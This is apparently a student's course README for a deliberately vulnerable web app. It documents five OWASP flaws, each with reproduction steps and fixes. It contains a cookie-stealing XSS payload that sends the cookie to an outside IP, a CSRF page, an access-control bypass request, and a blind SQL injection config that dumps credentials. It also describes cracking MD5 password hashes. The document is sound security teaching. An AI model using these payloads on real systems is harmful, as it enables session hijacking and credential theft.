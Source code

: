 # Cyber Security Base  - Project I

This is my solution for the first project of the [Cyber Security Base course](https://cybersecuritybase.github.io/). In this project our task is to create a web application that has at least five different flaws from the [OWASP top ten list](https://www.owasp.org/index.php/Top_10_2013-Top_10).

## Content

1. [Flaw 1 - Cross-Site Scripting](https://github.com/BenjaminStienlet/cybersecuritybase-project#flaw-1---cross-site-scripting)
2. [Flaw 2 - Cross-Site Request Forgery](https://github.com/BenjaminStienlet/cybersecuritybase-project#flaw-2---cross-site-request-forgery)
3. [Flaw 3 - Missing Function Level Access Control](https://github.com/BenjaminStienlet/cybersecuritybase-project#flaw-3---missing-function-level-access-control)
4. [Flaw 4 - Injection](https://github.com/BenjaminStienlet/cybersecuritybase-project#flaw-4---injection)
5. [Flaw 5 - Sensitive Data Exposure](https://github.com/BenjaminStienlet/cybersecuritybase-project#flaw-5---sensitive-data-exposure)

## Setup info
* Web page: [http://localhost:8080/](http://localhost:8080/)
* User accounts:

    | Username | Password |
    | -------- | -------- |
    | admin    | adminpw  |
    | user     | userpw   |

* Tools needed:
    1. netcat
    2. [BBQSQL](https://github.com/Neohapsis/bbqsql)


## Flaw 1 - Cross-Site Scripting
**OWASP description**: [A3-Cross-Site Scripting](https://www.owasp.org/index.php/Top_10_2013-A3-Cross-Site_Scripting_(XSS))

**Issue**: [Cross-Site Scripting](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))

**Steps to reproduce**:

1. Go to the sign up form to create a new user.
2. In the address field insert:
    ```
    <script>document.write('<img src="http://192.168.0.117:1234/' + document.cookie + '">')</script>
    ```
3. Start a netcat server using the command `nc -lp 1234` on the specified host. When a user opens the attendees page, a request is sent to this server:

    ![Result of XSS](https://raw.githubusercontent.com/BenjaminStienlet/cybersecuritybase-project/master/images/XSS_session_cookie.png)
4. We now can take over the session of this user by changing our own session cookie using `document.cookie="JSESSIONID=E0ED84B16865028DF09E522DC8B8DDC8"` in the browser console. This way we are able to steal the session of the admin user when this user logs in.

**Remediation**:

* Escape user input when showing this on a page.
* Make sure that the HTTPOnly cookie flag is set for the session ID.


## Flaw 2 - Cross-Site Request Forgery
**OWASP description**: [A8-Cross-Site Request Forgery](https://www.owasp.org/index.php/Top_10_2013-A8-Cross-Site_Request_Forgery_(CSRF))

**Issue**: [Cross-Site Request Forgery](https://www.owasp.org/index.php/Cross-Site_Request_Forgery)

**Steps to reproduce**:

1. Create an HTML with the following content:

    ```HTML
    <html>
        <body onload="document.forms[0].submit()">
            <form action="http://localhost:8080/profile" method="POST">
                <input type="hidden" name="count" id="count" value="1000" />
                <input type="submit" value="Submit" />    
            </form>
        </body>
    </html>
    ```
2. Host this page somewhere.
3. Login to the application with a user.
4. Go to the url where the CSRF attack page is hosted (e.g. https://benjaminstienlet.github.com/cybersecuritybase-project/csrf_attack.html).
5. The number of attendees for the user that was logged in is now changed to 1000:

    ![Result of CSRF](https://raw.githubusercontent.com/BenjaminStienlet/cybersecuritybase-project/master/images/CSRF_result.png)

**Remediation**:

* Verify the same origin using standard headers.
* Use a secure random CSRF token for state changing operations.


## Flaw 3 - Missing Function Level Access Control
**OWASP description**: [A7-Missing Function Level Access Control](https://www.owasp.org/index.php/Top_10_2013-A7-Missing_Function_Level_Access_Control)

**Issue**: Regular users can access a privileged function

**Steps to reproduce**:

1. Login as a normal user and note down your session id
2. Connect to the web server using netcat with the following command: `nc 192.168.0.185 8080`
3. Insert the following HTTP request:

    ```
    DELETE /attendees/John%20Smith HTTP/1.1
    Host: 192.168.0.185:8080
    Cookie: JSESSIONID=6DE506E932836598A6BFCA5FC6427A61
    ```

4. Press enter to submit the request. The user John Smith now is successfully removed by a regular user who should not have these rights.

    ![Result of netcat](https://raw.githubusercontent.com/BenjaminStienlet/cybersecuritybase-project/master/images/privileged_function_command.png)

**Remediation**:

* Don't use "presentation layer access control" but also check in the function itself that the authenticated user has the necessary privileges to perform this function.


## Flaw 4 - Injection
**OWASP description**: [A1-Injection](https://www.owasp.org/index.php/Top_10_2013-A1-Injection)

**Issue**: [Blind SQL injection](https://www.owasp.org/index.php/Blind_SQL_Injection)

**Steps to reproduce**:

1. Login to the web application.
2. Go to the attendees page.
3. Insert `nothing' OR '1'='1` in the search field. After applying this filter, all items are still shown. This indicates that we can exploit this filter using SQL injection. We will have to use a blind SQL injection as the result of the query is not printed. I chose for a content-based blind SQL injection, but a time-based injection should also work.
4. We can read the data from the database by doing a binary search on the ASCII value of each character in the database and iterating over all the characters. The base query for this method is:
    ```
    1' OR (ASCII(SUBSTRING(SELECT CONCAT(NAME,':',PASSWORD) FROM ACCOUNT LIMIT 1 OFFSET 1, 1, 1)) > 63) --
    ```

    If the list of attendees is shown, the query evaluated to true and the ASCII value of the first character in the Name column for the first row in the Account table is larger than 63. If no attendees are shown, then the query evaluated to false.
5. We can now execute this base query using the tool [BBQSQL](https://github.com/Neohapsis/bbqsql) with the following configuration file:
    ```
    [Request Config]
    url = http://192.168.0.185:8080/attendees
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
    cookies = {'JSESSIONID': '19EE58D182C7FE01DC0312AD14172858'}
    data = searchString=${query}
    method = post

    [HTTP Config]
    query = 1' OR (ASCII(SUBSTRING(SELECT CONCAT(NAME,':',PASSWORD) FROM ACCOUNT LIMIT 1 OFFSET ${row_index:1}, ${char_index:1}, 1)) ${comparator:>} ${char_val:0}) --
    csv_output_file = bbqsql_output.csv
    technique = binary_search
    comparison_attr = size
    concurrency = 30
    ```
6. This tool gives the following output:

    ![Result of BBQSQL](https://raw.githubusercontent.com/BenjaminStienlet/cybersecuritybase-project/master/images/SQLI_result.png)

**Remediation**:

* [Parameterized queries](https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet#Defense_Option_1:_Prepared_Statements_.28with_Parameterized_Queries.29) can be used as a remediation for this SQL injection.


## Flaw 5 - Sensitive Data Exposure
**OWASP description**: [A6-Sensitive Data Exposure](https://www.owasp.org/index.php/Top_10_2013-A6-Sensitive_Data_Exposure)

**Issue**: Weak cryptographic algorithm and unsalted hashes used

**Steps to reproduce**:

1. In the previous flaw, we found the user names and hashes of the passwords. Using an [online tool](https://www.onlinehashcrack.com/hash-identification.php) to identify the hash type, we can see that these hashes are probably MD5 hashes.
2. We can check an [online reverse lookup](http://md5.gromweb.com/) for the MD5 hashes:

    ![Result of reverse lookup](https://raw.githubusercontent.com/BenjaminStienlet/cybersecuritybase-project/master/images/MD5_reverse_lookup.png)
3. This way we found the passwords of the user accounts in the application.

**Remediation**:

* Select a hashing algorithm that has no known vulnerabilities. For example the standard BCrypt algorithm in the Spring framework. The implementation in Spring also uses a random salt per user.
